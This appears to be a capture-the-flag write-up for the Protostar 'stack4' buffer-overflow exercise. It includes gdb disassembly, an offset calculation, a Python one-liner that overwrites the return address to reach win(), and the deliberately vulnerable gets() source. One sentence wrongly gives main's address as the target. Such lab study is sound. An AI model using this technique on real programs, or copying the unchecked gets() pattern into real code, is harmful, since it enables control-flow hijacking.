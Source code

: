 # Stack 4

## Problem

Again we check for other possible function calls that might be used in this problem.

```gdb
 info functions
All defined functions:

File stack4/stack4.c:
int main(int, char **);
void win(void);
```

We then examine both the main and win function.

```gdb
Dump of assembler code for function main:
0x08048408 <main+0>:    push   ebp
0x08048409 <main+1>:    mov    ebp,esp
0x0804840b <main+3>:    and    esp,0xfffffff0
0x0804840e <main+6>:    sub    esp,0x50
0x08048411 <main+9>:    lea    eax,[esp+0x10]
0x08048415 <main+13>:   mov    DWORD PTR [esp],eax
0x08048418 <main+16>:   call   0x804830c <gets@plt>
0x0804841d <main+21>:   leave
0x0804841e <main+22>:   ret
End of assembler dump.
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   ebp
0x080483f5 <win+1>:     mov    ebp,esp
0x080483f7 <win+3>:     sub    esp,0x18
0x080483fa <win+6>:     mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

From the code we can guess the buffer is at `esp+0x10` to `esp+0x50` a 64char buffer. We can also see that there is a `gets` call before the function terminates. There is no call to any other function in main. We want to try to force main to call `win` instead. We could do so by having the stack overflow past ebp of main. Then we would have to also replace the ebp of the caller to main and the return address afterwards, where the return address should be `0x08048408`.
By computing we aim to find the esp and overflow past the ebp by a word to first remove the previous ebp in call and then to inject the address of `win`.

## Idea and Attack process

```gdb
b *0x0804840e
r
info reg
>>>esp            0xbffffc10       0xbffffc10
>>>ebp            0xbffffc68       0xbffffc68
```

From here we will reverse work the location of the stack to be `0xbffffc20` and we will have to fill till `0xbffffc68 + 4` that gives us a total of 76char before injecting our `win` location

```shell
python -c 'print "1"*76 + "\xf4\x83\x04\x08"' | ./stack4
```

## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
